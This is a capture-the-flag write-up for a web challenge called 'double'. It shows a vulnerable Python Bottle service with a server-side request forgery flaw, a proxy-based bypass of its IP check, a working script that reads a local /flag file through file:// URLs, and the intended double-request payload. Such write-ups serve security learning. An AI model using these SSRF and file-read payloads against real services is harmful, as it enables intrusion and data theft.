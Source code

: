 # double
Web, Easy

## Description

> Get the /flag at http://108.61.211.185/

## Solution

When accessing the site we get the following output:

```python
import string
import urllib2
from bottle import route, run, post, get, request

@get('/')
def index():
    with open(__file__) as f:
        return '<pre>' + "".join({'<':'<','>':'>'}.get(c,c) for c in f.read()) + '</pre>'


@post('/isup')
@get('/isup')
def isup():
    try:
        name = request.params.get('name', None)
        ip = request.environ.get('REMOTE_ADDR')
        is_remote = not (ip.startswith('127') or ip.startswith('172'))

        is_valid = all(x in name for x in ['http', 'kuchenblech'])
        if is_remote and not is_valid:
            raise Exception
        result = urllib2.urlopen(name).read()
        return result
    except:
        return 'Error'

run(host='0.0.0.0', server="paste", port=8080, reloader=False)
```

It looks like the root directory prints the source of the backend script. Using the `/isup` page, we can read a webpage via `urllib2.urlopen(name).read()`, assuming we comply with the preconditions:

* If our IP is identified as a remote IP (i.e. it starts with `127` or `172`), we can only read URLs which contain both `http` and `kuchenblech` (note: The CTF domain was `http://kuchenblech.xyz/`).
* Local IPs can read any URL.

`127.*.*.*` should be familiar to everyone. Let's research `172.*.*.*` addresses:

> If the 1st octet is 172 and the 2nd octet of a IPv4 address is 16–31, you have a private IP address, similar to 192.168.x.x or 10.x.x.x. These are the 3 private IP address ranges that are reserved per RFC 1918.
> 
> ...
> 
> If the 2nd octet of an IPv4 address starting with 172 is anything other than 16–31, it’s a publicly routable IP, just like almost any other.
> ([Source](https://www.quora.com/What-is-the-significance-of-IP-addresses-starting-with-172))

So, using a proxy which starts with `172` we can bypass the `is_valid` check. But what should we send as the `name`? Sending `http://108.61.211.185/flag` didn't work, perhaps `/flag` is a local file?

It turns out `urlopen` can open local files as well, so in order to open `/flag` we need to send `file:///flag`.

The final script is:

```python
import requests

s = requests.Session()
def get_page(ip):
    r = s.get('http://108.61.211.185/isup?name=file:///flag', proxies={'http': ip})
    return r.text

print get_page("http://172.93.199.90:3131")
```

The flag: `junior-double_or_noth1ng`.

According to the flag (and the challenge name), the intended solution was to make a double request:

```
http://108.61.211.185/isup?name=http://108.61.211.185/isup?kuchenblech=1%26name=file:///flag
```

The `name` of the external request contains both `http` and `kuchenblech` while the internal request is performed locally and therefore does not need any validation.